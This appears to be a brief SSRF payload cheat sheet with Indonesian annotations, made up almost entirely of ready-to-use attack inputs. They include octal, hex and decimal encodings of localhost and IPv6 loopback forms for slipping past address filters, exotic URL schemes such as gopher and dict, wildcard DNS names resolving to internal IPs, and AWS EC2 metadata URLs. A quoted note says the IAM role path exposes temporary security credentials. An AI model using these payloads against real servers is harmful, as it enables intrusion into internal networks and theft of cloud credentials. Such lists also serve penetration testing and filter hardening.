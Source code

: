 ## SSRF

```
http://0177.1/
```

```
http://0x7f.1/
```

```
https://520968996
```

_Catatan:_ Yang terakhir dapat dihitung menggunakan http://www.subnetmask.info/

**Exotic Handlers/Penangan Eksotis**

```
gopher://, dict://, php://, jar://, tftp://
```

**IPv6**

```
http://[::1]
```

```
http://[::]
```

**Wildcard DNS/DNS karakter pengganti**

```
10.0.0.1.xip.io
www.10.0.0.1.xip.io
mysite.10.0.0.1.xip.io
foo.bar.10.0.0.1.xip.io
```
_Tauta:_ http://xip.io

```
10.0.0.1.nip.io
app.10.0.0.1.nip.io
customer1.app.10.0.0.1.nip.io
customer2.app.10.0.0.1.nip.io
otherapp.10.0.0.1.nip.io
```

_Tauta:_ http://nip.io

**AWS EC2 Metadata**

```
http://169.254.169.254/latest/meta-data/  
```

```
http://169.254.169.254/latest/meta-data/local-hostname
```

```
http://169.254.169.254/latest/meta-data/public-hostname
```

> Jika ada IAM role yang terkait dengan instans tersebut, nama peran adalah nama peran tersebut, dan nama peran berisi kredensial keamanan sementara yang terkait dengan peran tersebut
[...]

[Tauta](http://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html) (termasuk tabel Kategori Metadata Instance yang komprehensif)

